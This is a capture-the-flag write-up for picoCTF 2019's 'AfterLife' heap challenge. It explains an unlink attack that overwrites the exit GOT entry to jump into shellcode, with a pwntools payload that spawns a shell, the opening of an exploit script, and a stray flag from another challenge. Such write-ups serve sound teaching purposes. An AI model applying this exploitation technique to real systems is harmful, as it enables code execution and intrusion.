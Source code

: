 flag: `picoCTF{pseudo_random_number_generator_not_so_random_24ce919be49576c7df453a4a3e6fbd40}`

# AfterLife

## Problem

Just pwn this program and get a flag. It's also found in /problems/afterlife_6_1c6bc56bd64007e5162e284db4d03df5 on the shell server. Source.

[Binary](/blog/picoctf-2019-writeup/binary-exploitation/AfterLife/vuln)

[Source](/blog/picoctf-2019-writeup/binary-exploitation/AfterLife/vuln.c)

## Solution

This is a heap overflow attack where we have a leaked heap address. A quick check with radare2 reveals that it is not using the standard `malloc` in libc:

```
[0x08048850]> afl~malloc
0x08049d81   16 481          sym.malloc_consolidate
0x0804ab72    7 105          sym.malloc_usable_size
0x0804937b   64 1908         sym.malloc
0x0804ad80    3 176          sym.malloc_stats
0x0804ab38    1 58           sym.malloc_trim
0x08048b7f    4 226          sym.malloc_init_state
0x0804a7ca    1 37           sym.independent_comalloc
```

The first attack that came to mind is the unlink attack. We can overwrite the `fd_ptr` and `bk_ptr` pointers of a freed chunk, so when the chunk is then malloced, `fd_ptr+12 = bk_ptr` and `bk_ptr+8 = fd_ptr`. We can utilize this to overwrite the GOT table and get code execution with something like this:

* exit_got-12 <-- fd_ptr
* leak+8 <-- bk_ptr / location of our shellcode.

After unlink, `exit_got-12+12` will equal `leak+8` the location where we placed our shellcode.

One thing to keep in mind is that 4 bytes of our shellcode would also get corrupted by the unlink, so we need to have a relative jump at the start of our shellcode:

```python
payload += asm('''
  jmp sc
  {}
sc:
  nop
  '''.format('nop\n'*100)+shellcraft.i386.linux.sh())
```

Exploit script:

```python
from pwn import *
import sys

argv = sys.argv

DEBUG = True
BINARY = './vuln'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

def attach_gdb():
  gdb.attach(sh)
```